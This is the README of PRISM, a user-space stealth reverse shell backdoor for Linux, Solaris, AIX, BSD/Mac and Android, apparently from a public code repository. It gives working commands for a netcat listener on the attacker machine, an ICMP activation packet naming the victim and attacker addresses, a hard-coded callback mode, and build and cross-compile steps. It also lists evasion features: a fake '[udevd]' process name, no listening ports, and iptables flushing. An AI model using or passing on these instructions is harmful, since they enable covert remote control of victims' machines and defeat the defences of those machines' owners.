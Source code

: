 # Prism

PRISM is an user space stealth reverse shell backdoor. 

It was fully tested on:

* **Linux**
* **Solaris**
* **AIX**
* **BSD/Mac**
* **Android**

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

## ICMP mode

Using this operation mode the backdoor waits silently in background for a specific ICMP packet 
containing the host/port to connect back and a private key to prevent third party access. 

* First, run **netcat** on the attacker machine to wait for incoming connection from the backdoor:
```bash
$ nc -l -p 6666 
```

* Using the **sendPacket.py** script (or another packet builder) send the activation packet to the backdoor: 
```bash
./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666
```
 **192.168.0.1**  is the victim machine running prism backdoor  
 **p4ssw0rd** is the key  
 **192.168.0.10** is the attacker machine address  
 **6666** is the attacker machine port

* The backdoor will connect back to netcat!


## STATIC mode

Using this operation mode the backdoor try to connects to an hard-coded IP/PORT.  
In this case, just run netcat listening on the hard-coded machine/port:
```bash
 $ nc -l -p [PORT] 
```

## Features

* Two operating modes (ICMP and STATIC)
* Runtime process renaming
* No listening ports
* Automatic iptables rules flushing
* Written in pure C
* No library dependencies

## Configuration

Before building, you have to configure the backdoor editing the source code.  
Following the configuration parameters description:

**STATIC mode:**  
*REVERSE_HOST*:   Machine address to connect back  
*REVERSE_PORT*:   Machine port to connect back  
*RESPAWN_DELAY*:  Time, in seconds, between each connection  

**ICMP mode:**  
*ICMP_KEY*:       Key/Password to activate the backdoor  

**Generic parameters:**  
*MOTD*:           Message to be printed at the backdoor connection  
*SHELL*:          Shell to execute  
*PROCESS_NAME*:   Fake process name  

## Building

`gcc <..OPTIONS..> -Wall -s -o prism prism.c`

Available GCC options:  
**-DDETACH**        #Run the process in background  
**-DSTATIC**        #Enable STATIC mode (default is the ICMP mode)  
**-DNORENAME**      #Doesn't renames the process  
**-DIPTABLES**     #Try to flush all iptables rules  

Example:  
`gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c`

## Cross Compiling
* **Android**  
Change the shell to */system/bin/sh*  
`apt-get install gcc-arm-linux-gnueabi`  
`arm-linux-gnueabi-gcc -DSTATIC -DDETACH -DNORENAME -static -march=armv5 prism.c -o prism`

* **Linux 64bit** (using a 32bit host system)   
`apt-get install libc6-dev-amd64`  
`gcc -DDETACH -m64 -Wall -s -o prism prism.c`

* **Linux 32bit** (using a 64bit host system)   
`apt-get install libc6-dev-i386`  
`gcc -DDETACH -m32 -Wall -s -o prism prism.c`

## Backdoor building information

The backdoor ignore any command line parameter, except the **Inf0** (the last char is a digit).  
This option allow you to see some information about the backdoor:

```bash
$ ./prism Inf0
 Version: 0.5
 Mode: icmp
 Key: p455w0rD
 Process name: [udevd]
 Shell: /bin/sh
 Detach: Yes
 Flush Iptables: No
```
